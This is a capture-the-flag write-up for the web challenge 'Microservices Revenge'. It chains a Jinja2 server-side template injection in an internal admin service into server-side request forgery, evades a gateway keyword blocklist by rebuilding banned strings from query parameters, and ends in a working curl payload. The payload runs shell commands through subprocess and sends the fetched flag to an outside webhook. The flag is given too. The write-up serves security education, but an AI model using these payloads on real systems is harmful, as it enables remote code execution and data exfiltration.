


# Microservices Revenge
Category: Web

## Description
I've upgraded the security of this website and added a new feature. Can you still break it?

- Junhua

[http://34.124.157.94:5005/](http://34.124.157.94:5005/)

Attachments: [dist.zip](attachments/dist.zip)

## Write-up
- This challenge appears to be a continuation of the previous [Microservices](../web-microservices/README.md) challenge.
- The flag can now only be obtained from the `/flag` endpoint of a new microservice at `rflagpage`.
- Unfortunately, direct access to `rflagpage` is not possible, and we must go through the `gateway`.
- However, specifying `flagpage` as the `service` query parameter to the `gateway` will redirect us to the `/construction` endpoint of `rflagpage`, as indicated by the specified routes.
```
routes = {
    "adminpage": "http://radminpage",
    "homepage": "http://rhomepage",
    "flagpage": "http://rflagpage/construction",
}
```
- We need to identify potential attack vectors that can be exploited to forward our request to `http://rflagpage/flag`.
- It seems that `http://rhomepage/` is vulnerable to Server-Side Template Injection (SSTI), as we can manipulate our `user` cookie to render malicious markup content, which is treated as safe HTML input.



- Another attack vector we discovered is SSTI in `http://radminpage/`, where we can inject malicious markup content by manipulating the `user` cookie, as there is no input sanitization before rendering.



- It is more promising to focus on the second attack vector, as we can attempt to leverage SSTI to achieve Server-Side Request Forgery (SSRF). The first attack vector primarily allows us to execute malicious client-side payloads, but it is unlikely to enable us to forward our request to `rflagpage`.
- Since `radminpage` and `rflagpage` are in the same network, we aim to exploit the second SSTI vulnerability to make a request to `http://rflagpage/flag` via `radminpage`, retrieve its content, and then send it to our webhook by appending it.
- However, there is a custom Web Application Firewall (WAF) method in the gateway called `is_sus()` that checks the `service` query parameter and the `user` cookie against a list of forbidden words.
```
banned_chars = {
    "\\",
    "_",
    "'",
    "%25",
    "self",
    "config",
    "exec",
    "class",
    "eval",
    "get",
}
```
- To bypass these checks, we can cleverly construct a payload that utilizes Jinja2 filters and additional query parameters.
- By specifying banned strings in the query parameters and utilizing Jinja2 filters in our SSTI payload, we can slowly build our payload by retrieving banned content from our query parameters.
- We can use `subprocess.Popen` which can be accessed via `"".__class__.__subclasses__` with SSTI and execute inline Python code using `python3 -c "<python code>"`.
- The Python code we aim to execute is as follows:
```
from urllib.request import urlopen
from base64 import b64encode
output = urlopen(\"http://rflagpage/flag\").read()
output = b64encode(output).decode();
urlopen(\"https://webhook.site/774fac7f-86a1-4682-a2c0-883ea13d0a6a/\" + output)"
```
- The following `curl` request contains the necessary logic to exfiltrate the flag from `http://rflagpage/flag` and send it to our webhook URL:
```
curl -b 'user={{""|attr(request|attr("args")|list|attr("pop")(1))|attr("mro")()|attr("pop")(1)|attr(request|attr("args")|list|attr("pop")(2))()|attr("pop")(343)(request|attr("args")|list|attr("pop")(3), shell=True) }}' "http://localhost:5005/?service=adminpage&__class__=0&__subclasses__=0&python%20-c%20%22from%20urllib.request%20import%20urlopen%3B%20from%20base64%20import%20b64encode%3B%20output%20%3D%20urlopen%28%5C%22http%3A%2F%2Frflagpage%2Fflag%5C%22%29.read%28%29%3B%20output%20%3D%20b64encode%28output%29.decode%28%29%3B%20urlopen%28%5C%22https%3A%2F%2Fwebhook.site%2F774fac7f-86a1-4682-a2c0-883ea13d0a6a%2F%5C%22%20%2B%20output%29%22=0"
```

Flag: `grey{55t1_bl4ck1ist_byp455_t0_S5rf_538ad457e9a85747631b250e834ac12d}`
